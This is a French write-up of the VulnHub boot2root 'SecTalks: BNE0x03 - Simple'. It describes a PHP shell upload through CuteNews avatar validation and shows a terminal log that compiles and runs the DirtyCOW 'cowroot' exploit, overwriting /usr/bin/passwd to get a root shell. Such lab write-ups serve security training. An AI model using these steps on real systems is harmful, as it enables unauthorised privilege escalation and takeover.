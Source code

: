 # Solution du CTF SecTalks: BNE0x03 - Simple de VulnHub

[SecTalks: BNE0x03 - Simple](https://vulnhub.com/entry/sectalks-bne0x03-simple,141/) est un boot2root avec plusieurs indices que les habitués des CTFs pourront tout à fait ignorer :

> 1. Get a user shell by uploading a reverse shell and executing it.
> 2. A proxy may help you to upload the file you want, rather than the file that the server expects.
> 3. There are 3 known privesc exploits that work. Some people have had trouble executing one of them unless it was over a reverse shell using a netcat listener.

```
Nmap scan report for 192.168.56.104
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Ce début de CTF est exactement le même scénario que sur le CTF [Cute](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Cute%20de%20VulnHub.md) : on dispose d'une appli web `CuteNews` sur laquelle il est possible de s'enregistrer et déposer un shell PHP via la fonctionnalité l'upload d'avatar pour peu que notre script PHP ait un entête d'image valide pour passer les vérifications.

On obtient alors un webshell avec les droits `www-data`.

On obtient ensuite un shell interactif via l'upload et l'exécution d'un reverse-ssh.

Une recherche de vulnérabilités via `LinPEAS` remonte `DirtyCOW` comme étant la meilleure solution pour une escalade de privilèges. On s'exécute donc :

```bash
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c 
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@simple:/var/www/html/uploads$ find / -name cc1 2> /dev/null 
/usr/lib/gcc/i686-linux-gnu/4.8/cc1
www-data@simple:/var/www/html/uploads$ export PATH=/usr/lib/gcc/i686-linux-gnu/4.8/cc1:$PATH
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
/tmp/ccVwkde8.o: In function `main':
cowroot.c:(.text+0x368): undefined reference to `pthread_create'
cowroot.c:(.text+0x38b): undefined reference to `pthread_create'
cowroot.c:(.text+0x3af): undefined reference to `pthread_create'
cowroot.c:(.text+0x3c4): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
www-data@simple:/var/www/html/uploads$ ./cowroot 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@simple:/var/www/html/uploads# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@simple:/var/www/html/uploads# cd /root
root@simple:/root# ls
flag.txt
root@simple:/root# cat flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```

*Publié le 3 janvier 2023*
